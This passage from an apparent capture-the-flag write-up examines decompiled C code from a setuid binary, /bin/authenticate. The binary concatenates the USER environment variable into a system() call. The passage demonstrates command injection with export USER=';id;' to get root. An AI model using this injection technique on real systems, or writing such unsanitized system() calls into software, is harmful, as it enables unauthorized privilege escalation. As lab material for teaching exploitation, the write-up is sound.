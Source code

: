 ```c
      puts("Group updated");
      setuid(__uid);
      system("newgrp developer");
    }
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
Looking at code, if the user is already developer, nothing is done. But if the user is not in developer group, value of variable **USER** is obtained with is user controllable value, which is concatenated and passed to the system call, which means we can execute any command as we want with the root privileges  .

## Executing commands  as root user
```console
jenny@wwbuddy:~$ id
uid=1002(jenny) gid=1002(jenny) groups=1002(jenny)
jenny@wwbuddy:~$ export USER=';id;'
jenny@wwbuddy:~$ /bin/authenticate 
Usage: usermod [options] LOGIN

Options:
  -c, --comment COMMENT         new value of the GECOS field
  -d, --home HOME_DIR           new home directory for the user account
  -e, --expiredate EXPIRE_DATE  set account expiration date to EXPIRE_DATE
  -f, --inactive INACTIVE       set password inactive after expiration
                                to INACTIVE
  -g, --gid GROUP               force use GROUP as new primary group
  -G, --groups GROUPS           new list of supplementary GROUPS
  -a, --append                  append the user to the supplemental GROUPS
                                mentioned by the -G option without removing
                                him/her from other groups
  -h, --help                    display this help message and exit
  -l, --login NEW_LOGIN         new value of the login name
  -L, --lock                    lock the user account
  -m, --move-home               move contents of the home directory to the
                                new location (use only with -d)
  -o, --non-unique              allow using duplicate (non-unique) UID
  -p, --password PASSWORD       use encrypted password for the new password
  -R, --root CHROOT_DIR         directory to chroot into
  -s, --shell SHELL             new login shell for the user account
  -u, --uid UID                 new UID for the user account
  -U, --unlock                  unlock the user account
  -v, --add-subuids FIRST-LAST  add range of subordinate uids
  -V, --del-subuids FIRST-LAST  remove range of subordinate uids
  -w, --add-subgids FIRST-LAST  add range of subordinate gids
  -W, --del-subgids FIRST-LAST  remove range of subordinate gids
  -Z, --selinux-user SEUSER     new SELinux user mapping for the user account

uid=0(root) gid=1002(jenny) groups=1002(jenny)
Group updated
$
```
Here we exported the value of USER to be `;id;` where the first ; closes the first usermod command which throws an error and then after id is run which tells us we are root.
